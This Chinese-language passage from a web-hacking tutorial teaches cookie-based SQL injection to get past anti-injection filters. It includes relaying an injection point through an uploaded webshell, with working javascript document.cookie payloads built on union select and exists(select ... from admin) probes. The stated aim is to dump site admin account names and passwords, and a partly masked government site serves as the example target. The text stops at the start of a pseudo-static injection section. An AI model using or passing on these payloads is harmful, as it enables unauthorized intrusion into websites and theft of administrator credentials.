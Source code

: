点击生成，再把生成的文件上传到webshell里，然后访问路径，再页面地址后面加“?jmdcw=参数”，这样搭建构造出来的注入点就绕过防注入了！

以上是在webshell里搭建ASP坏境的方法，下面的是本地架设ASP环境的方法：

利用简易IIS服务器搭建一个环境，再将COOKIE中转生成的文件放到简易IIS服务器的目录下！然后运行简易IIS服务器，在后面+文件名+问号+jmdcw=参数即可。


### 0x22 cookie手工突破防注入

第一种方法：

用 and 1=1 and 1=2 检测网站是否存在注入点时，如果提示你的IP已被记录，就说明系统做了防注入措施，可以用代码来突破。

管理员只过滤了and，但是没有过滤or，我们可以先猜网站的字段数 格式：order by 数字 猜到错为止，然后选前一个对的数字！

比如猜到14错误，那就是13了，然后利用Cookie提交变量值，代码：javascript:alert(document.cookie=id=”+escape(“这里填写变量值，例如：id=408”));

开始猜解表段，代码：javascript:alert(document.cookie=”id=”+escape(“变量值 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin”));

复制在浏览器里打开，将出现一个提示框，点击确定就会注射进去，再重新打开网站（要在此处打开，所以前面最好复制下网站地址）

然后就会出现两个提示数字，比如5跟6，然后在代码的5跟6处猜帐号密码，常见的帐号有：user username 密码:pass password

复制修改后的代码放到浏览器里打开，就会爆破出网站的帐号密码了。

第二种方法：

注入点：http://www.XXXXXXXX.gov.cn/shownews.asp?id=4098

首先把?id=408去掉，然后访问如果提示“数据库出错”！就说明网站没有过滤Cookie提交方式，可以利用Cookie欺骗绕过防注入！

利用Cookie提交变量值，代码：javascript:alert(document.cookie=”id=”+escape(“4098”)

下面开始在Cookie注入中执行常规注入攻击，提交代码：javascript:alert(document.cookie=”id=”+escape(“4098 and 1=1”));

访问http://www.XXXXXXXX.gov.cn/shownews.asp 显示正常页面，

再提交代码：javascript:alert(document.cookie=”id=”+escape(“4098 and 1=2”)); 显示错误页面！

下面来开始猜解表段，提交代码：javascript:alert(document.cookie=”id=”+escape(“4098 and exists (select * from 表段)”))；

接着猜字段，提交代码：javascript:alert(document.cookie=”id=”+escape(“4098 and exists (select 字段 from admin)”))； 例如：username

接着猜字段，提交代码：javascript:alert(document.cookie=”id=”+escape(“4098 and exists (select 字段 from admin)”)), 例如：password

下面开始猜字段数跟字段内容了，提交代码:javascript:alert(document.cookie=”id=”+escape(“4098 and 1=2 union select 1,2,3,4,5,6 from 表段”));

一直猜解到对为止，这里只是猜到6，记得继续加减！猜解到对的时候，页面会出现数字，然后在相对应的数字替换字段名，再进行提交代码！

这时如果字段名猜对的话，就会爆出帐号密码了，不对的话继续替换字段名，位置不变！（存在cookie注入时建议参考mysql手工注入的语句）


### 0x23 伪静态注入

伪静态网站注入方法，通常情况下，动态脚本的网站的url类似下面这样：

http://www.91ri.org/news.php?id=111
